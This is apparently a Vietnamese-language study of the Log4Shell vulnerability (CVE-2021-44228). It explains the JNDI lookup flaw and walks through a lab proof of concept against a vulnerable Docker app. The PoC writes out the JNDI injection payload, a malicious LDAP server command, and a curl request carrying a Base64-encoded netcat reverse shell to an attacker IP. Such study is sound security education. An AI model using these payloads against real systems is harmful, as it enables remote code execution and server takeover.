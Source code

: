 # Nghiên cứu lỗ hổng Log4shell

**1. Mã khai thác**

```
${jndi:ldap://127.0.0.1:1389/Run}
```

**2. Mô tả lỗi**

   - *Apache Log4j 2* là một thư viện Java phổ biến hỗ trợ việc log error messages của ứng dụng.

   - Log4shell là lỗ hổng phần mềm của *Apache Log4j 2* được published lần đầu với CVE-2021-44228, với nguyên nhân chủ yếu là do Improper Input Validation, cho phép remote attacker có thể chiếm quyền kiểm soát thiết bị trên Internet nếu thiết bị đó chạy Log4j 2.

   - Ở CVE-2021-44228, log4j phiên bản 2.0 tới 2.14.1 bị ảnh hưởng.

   - JNDI (Java Naming and Directory Interface)

     ![image-20220317142455864](image\image-20220317142455864.png)

     - JNDI cung cấp API cho ứng dụng để tương tác với LDAP, RMI,... Thông thường app Java sẽ không thể trực tiếp gửi request tới LDAP. 

   - Log4j có một tính năng dẫn tới lỗ hổng này, đó chính là tính năng lookup. Tính năng này được trigger bởi một chuỗi string đặc thù `${prefix:name}` . Thay vì in ra cả chuỗi ký tự này, đoạn string này sẽ được Log4j tiến hành lookup() .

     ![image-20220317153557009](image\image-20220317153557009.png)

   - Root cause của Log4shell nằm ở tính năng lookup() của JNDI, dẫn tới việc attacker tiến hành JNDI injection. 2 giao thức được hỗ trợ chủ yếu bởi JNDI là LDAP và RMI, khi thực hiện lookup() đều trả về 1 object. 

   - Đối với JNDI Injection, ta sẽ có 2 cách để tiến hành khai thác:

     - Deserialization exploit:![image-20220327154523522](image\image-20220327154523522.png)

       Đối với cách khai thác này, attacker có thể chèn mã độc với định dạng `${jndi:ldap://attacker/exploit}`, khi đoạn mã độc được log lại tại server nạn nhân, Log4j tìm thấy đoạn message và bắt đầu thực hiện request JNDI tới LDAP server  của `attacker` về `exploit` object. JNDI sẽ tiến hành lookup class mã độc tại LDAP server . LDAP sẽ trả về server nạn nhận một malicious serialized object, server nạn nhân sẽ tiến hành deserialize object, thực thi file `exploit.class` `->` Dẫn tới RCE. 

       ![image-20220317164249797](image\image-20220317164249797.png)

     - JNDI Reference: Đối với cách khai thác JNDI Reference, attacker sẽ sử dụng 1 LDAP server và 1 HTTP server, sau khi chèn mã độc `${jndi:ldap://attacker/exploit}`, đoạn mã được log tại server nạn nhân, log4j tìm thấy đoạn mã này và tiến hành jndi lookup như kịch bản trên. JNDI sẽ gửi request tới LDAP server của attacker và được LDAP server trả về 1 JNDI reference, server nạn nhận nhận được JNDI reference này sẽ gửi request tới HTTP server của attacker để GET về file `exploit.class` và tiến hành thực thi mã độc này.

       ![image-20220327160154306](image\image-20220327160154306.png)

   - POC cho JNDI Reference exploit:

     ![image-20220324234506235](image\image-20220324234506235.png)

     - Step 1: Chạy vuln app tại `192.168.16.105:8080`.

       ```
       docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
       ```

     - Step 2: Sử dụng JNDIExploit để khởi chạy malicious LDAP server và HTTP server.

       ```
       java -jar JNDIExploit-1.2-SNAPSHOT.jar -i attackerIP -p 8888
       ```

     - Step 3: Tại máy attacker, một cửa sổ bật ncat, 1 cửa sổ sử dụng tiến hành gửi request có chứa đoạn mã độc để kích hoạt reverse shell.

       ```
       curl 192.168.16.105:8080 -H 'X-Api-Version: ${jndi:ldap://attackerIP:1389/Basic/Command/Base64/bmMgMTcyLjMwLjE3OC44NyA0NDQ0IC1lIC9iaW4vc2g=}'
       ```

     - Step 4: Đoạn mã độc được log tại server nạn nhân, tiến hành JNDI lookup() với giao thức LDAP tới LDAP server attacker, tại đây các parameter trong URL được xử lý, cụ thể là Command được mã hóa Base64 được encode thành `nc 172.30.178.87 4444 -e /bin/sh`, và được gửi tới HTTP server của attacker, tại đây 1 file `exploit.class` được gen ra dựa trên Command được gửi tới từ LDAP server, server nạn nhân tiến hành GET file `exploit.class` và thực thi file, attacker lấy được shell tới server nạn nhân.


